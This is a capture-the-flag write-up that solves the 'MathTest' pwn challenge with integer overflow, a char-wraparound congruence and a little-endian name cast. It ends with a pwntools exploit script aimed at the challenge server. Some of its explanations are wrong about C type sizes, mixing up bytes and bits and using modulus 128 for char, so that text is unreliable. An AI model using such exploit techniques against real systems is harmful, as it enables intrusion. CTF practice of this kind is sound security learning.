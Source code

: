 ## pwn/MathTest

Solve three multiplication questions and get a flag.  

`nc 18.207.140.246 9001`

Given source: [mathtest.c](./mathtest.c)

## Solution

After `netcat`ing the server, we get a prompt to choose a name.

```
Welcome to your Math Test. Perfect Score gets a Flag!
Enter Name:
```

Let's just ignore this for now and enter any random string.  
After this, we get another prompt:

```
36864*x < 0. What is x
```

Looking at the source code, we can see this:
```c
...
long mult1 = 0x9000;
	long ans1;
	printf("%ld*x < 0. What is x\n", mult1);
       	scanf("%ld", &ans1);
	if(ans1 < 0) {
		printf("No Negatives!\n");
		return 0;
	}
	if(mult1*ans1 > 0) {
		printf("Incorrect, try again\n");
		return 0;
	}
...
```

`mult1` is `0x9000` or $36864$ in base $10$. And the value of both `ans1` (the value we input) and `mult` is stored in a `long` datatype. We just need to overflow it so that it circles around to the negative values. Since size of a `long` is $64$ bytes. Therefore, we to get the answer, we just need to find $x$ such that:

$$
36864 x> 2^{63}-1 \\
\implies x > \frac{2^{63}-1}{36864} = 250199979298360.88 \\
$$

Now, since $x$ is an integer, we get:
$x \geq 250199979298361$

Taking this value, we get the next prompt:
```
Next Question
3735928559 * y = 0. What is y
```

Looking at the source:
```c
...
printf("Next Question\n");
	long mult2 = 0xdeadbeef;
	long ans2;
	printf("%ld * y = 0. What is y\n", mult2);
	scanf("%ld", &ans2);
	if(ans2 >= 0) {
                printf("Now Only Negatives!\n");
                return 0;
        }
        if((mult2*ans2) == 0) {
		printf("%ld\n", mult2*ans2);
                printf("Incorrect, try again\n");
                return 0;
        }
...
```

The prompt is misleading for some reason. We just need to bypass the `if (ans >= 0)` check. For this, just choose $y = -1$ and we get the next prompt.

```Final Quesiton
Good
O * z = 'A'. What is z?
```

Ascii value of the character `O` is $79$. ASCII value of `A` is $65$. We need to choose a $z$ such that the value of the product $79 z$ overflows and gives $65$. Also, since the size of a `char` in `C` is $8$ bytes or $128$ bits, the sort of "modulus" of overflow will be $128$. In other words, we need to find solution to the equation:
$$
79 z \equiv 65 \ (\text{mod } 128)
$$
After solving this simple equation, we find that one of its solution is:
$z = 111$ since, $79 \times 111 = 8769 \equiv 65 \ (\text{mod } 128)$.

Looking at the source, we see

```c
...
printf("Final Quesiton\n");
	char mult3 = 'O';
	char ans3;
	printf("Good\n");
	printf("%c * z = 'A'. What is z?\n", mult3);
	scanf("\n%c", &ans3);
	if((char)(ans3*mult3) != 'A') {
		printf("Incorrect, try again\n");
		return 0;
	}
...
```

The `scanf` here is taking a `char` as the input. We know that the character `o` has ASCII value $111$, so $z$ will be the character `o`.

Now comes the most important part:

```c
...
printf("Final Question: ans1 + ans2 + ans3 = name\n");
	long *n = (long *)name;

	if(ans1 + ans2 + ans3 == *n) {
		printf("Congratulations! Here is your flag!!!!\n");
		printflag();
	}	
	else {
		printf("If only you had a better name :(\n");
		return 0;
	}
...
```

Since the values of a string or an array of characters is contiguous in C, the line:
`long *n = (long *)name;` will work like similar to the `bytes_to_long` function, the catch here is, due to little endianness being default, the values will be reversed.

This now checks if the value $x+y+z$ is equal to `bytes_to_long(reversed(name))`. So we have to carefully choose the `name` next time. We know that the value $x+y+z$ is $250199979298361 + (-1) + 111 = 250199979298471$, So we just need to give `reversed(long_to_bytes(250199979298471))` as `name`. We can easily do this using python pwntools.


## Script
```python
from pwn import *

# r = process('./mathtest')
r = remote('18.207.140.246', 9001)


def long_to_bytes(n):
    l = []
    x = 0
    off = 0
    while x != n:
        b = (n >> off) & 0xFF
        l.append( b )
        x = x | (b << off)
        off += 8
    l.reverse()
    return bytes(l)

username = bytes(reversed(long_to_bytes(250199979298361 + (-1) + 111)))

r.sendlineafter(b'Enter Name:', username)
r.sendlineafter(b'What is x', b'250199979298361')
r.sendlineafter(b'What is y', b'-1')
r.sendlineafter(b'What is z?', b'o')

r.interactive()
```
